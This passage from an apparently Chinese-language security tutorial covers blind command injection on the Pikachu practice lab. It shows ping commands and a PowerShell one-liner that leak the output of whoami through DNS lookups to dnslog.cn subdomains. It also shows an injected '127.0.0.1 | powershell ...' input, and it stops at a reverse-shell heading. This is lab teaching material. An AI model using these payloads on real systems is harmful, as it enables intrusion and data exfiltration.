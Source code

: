 ```
ping j0ve3d.dnslog.cn
ping `whoami`.j0ve3d.dnslog.cn
```

![image-20250523171557526](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170039063-1779400648.png)

![image-20250523171620047](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170039387-193273209.png)

可以看到回显记录，但是这个只能linux适用，在windows里面我们需要用到powershell

```
powershell
$x=whoami;
$xx=$x.replace('\','xxxx');
$y='.j0ve3d.dnslog.cn';
$z=$xx+$y;
echo $z;
ping $z;
```

| 问题                       | 答案                                                  |
| -------------------------- | ----------------------------------------------------- |
| 为什么要替换 `\`？         | 因为 DNS 域名不允许使用 `\` 这样的非法字符            |
| 替换成 `xxxx` 是必须的吗？ | ❌ 不是必须，只是一个例子                              |
| 可以替换成别的字符串吗？   | ✅ 可以，只要是 DNS 合法字符就行，比如 `-`, `_`, `abc` |
| 替换不做会怎么样？         | ❌ `ping` 命令会失败，域名无效，dnslog 不会收到请求    |

![image-20250523172911366](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170039721-1301440462.png)

![image-20250523172917375](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170040045-481138285.png)

这里把pikachu靶场的回显关闭

找到文件\phpstudy_pro\WWW\pikachu\vul\rce\rce_ping.php

![image-20250523173736226](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170040374-455963336.png)

再去输入就没有回显了，在输入框输入：

```
127.0.0.1 | powershell $x=whoami;$xx=$x.replace('\','xxxx');$y='.n94843.dnslog.cn';$z=$xx+$y;ping $z;
```

记录：

![image-20250523174706544](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170040680-1558046806.png)



回显成功

### 反弹shell
